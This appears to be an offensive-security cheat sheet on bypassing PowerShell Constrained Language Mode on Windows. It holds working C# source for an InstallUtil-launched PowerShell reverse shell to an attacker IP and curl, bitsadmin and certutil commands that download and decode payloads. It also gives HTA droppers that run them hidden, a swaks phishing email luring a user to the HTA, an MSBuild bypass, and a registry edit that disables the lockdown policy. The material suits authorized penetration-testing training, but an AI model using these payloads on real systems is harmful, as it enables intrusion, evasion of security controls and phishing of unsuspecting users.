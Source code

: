 # CLM Bypass

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Unprivileged] Bypass Using InstallUtil (bypass_clm_rev_shell.exe)</summary>

<pre class="language-csharp" data-line-numbers><code class="lang-csharp">using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello from main");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
<strong>        public override void Uninstall(System.Collections.IDictionary savedState)
</strong>        {
            string rev = @"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',53);
                                    $stream = $client.GetStream();
                                    [byte[]]$bytes = 0..65535|%{0};
                                    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
                                    {
	                                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	                                    try
	                                    {	
		                                    $sendback = (iex $data 2>&#x26;1 | Out-String );
		                                    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	                                    }
	                                    catch
	                                    {
		                                    $error[0].ToString() + $error[0].InvocationInfo.PositionMessage;
		                                    $sendback2  =  ""ERROR: "" + $error[0].ToString() + ""`n`n"" + ""PS "" + (pwd).Path + '> ';
	                                    }	
	                                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	                                    $stream.Write($sendbyte,0,$sendbyte.Length);
	                                    $stream.Flush();
                                    };
                                    $client.Close();";

            //String cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.198/runall.ps1') | powershell -noprofile";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(rev);
            ps.Invoke();
            rs.Close();
        }
    }
}

</code></pre>



![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png>)

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Select Release & x64 version and build

### Exploitation

```bash
# Find full filepath of installutil: 
dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$
 
# Download CLM bypass reverse shell from Kali:
curl.exe http://192.168.45.198/bypass_clm_rev_shell.exe --output bypass_clm_rev_shell.exe

# Bypass clm with installutil:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass_clm_rev_shell.exe"

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta file from email

<pre><code># Encode bypass_clm_rev_shell with certutil
<strong>certutil -f -encode bypass_clm_rev_shell.exe enc.txt
</strong></code></pre>

* Rev.hta

```javascript
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
//Using InstallUtil
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\bypass.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\installutil.exe /logfile= /LogToConsole=false /U C:\\windows\\temp\\bypass.exe")

</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

* Send Email to user

```bash
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```



</details>

<details>

<summary>[Unprivileged] Bypass Using MsBuild (FullBypass.csproj)</summary>

In [FullBypass.csproj](https://raw.githubusercontent.com/n000b3r/PrivEsc/d2c98251012732790d19b2e390bb448a7b2bb15c/Windows/clm_bypass/FullBypass.csproj): edit line168 to use [runall.ps1 --> AMSI bypass (1.txt & 2.txt) --> simple\_ps\_revshell.ps1](powershell-shellcode-runner.md#simple-powershell-reverse-shell-with-amsi-bypass-simple_ps_revshell.ps1)

![](<../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

```
# Download to Victim machine
curl.exe http://192.168.45.198/FullBypass.csproj -o FullBypass.csproj

# Build the FullBypass C# project
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj

# Obtain reverse shell
nc -lvp 53
```

### Exploiting via .hta from email

```
# Encode FullBypass.csproj with certutil
certutil -f -encode FullBypass.csproj enc.txt
```

* Rev.hta

<pre><code>&#x3C;html>
&#x3C;head>
&#x3C;script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
	
// Using msbuild
var re = shell.Run("powershell -windowstyle hidden bitsadmin /Transfer newjob http://192.168.45.170/enc.txt c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\FullBypass.csproj;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe c:\\windows\\temp\\FullBypass.csproj")
<strong>
</strong><strong>&#x3C;/script>
</strong>&#x3C;/head>
&#x3C;body>
&#x3C;script language="JScript">
self.close();
&#x3C;/script>
&#x3C;/body>
&#x3C;/html>
</code></pre>

* Send email to user

```
swaks --to mary@example.com --server 192.168.131.159 --body "Hello, check out my link. http://192.168.45.170/rev.hta" --header "Subject: Issues" --from bob@example.com
```

</details>

<details>

<summary>[Unprivileged] Custom InstallUtil Application Template</summary>

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace InstallUtil_custom_exe
{
    internal class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        //Put DLLImports here
        
        //End of DLLImports
        
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
         //Put custom code here

         //End of custom code
        }
    }
}

```

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1) (1) (1) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

```bash
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```

</details>



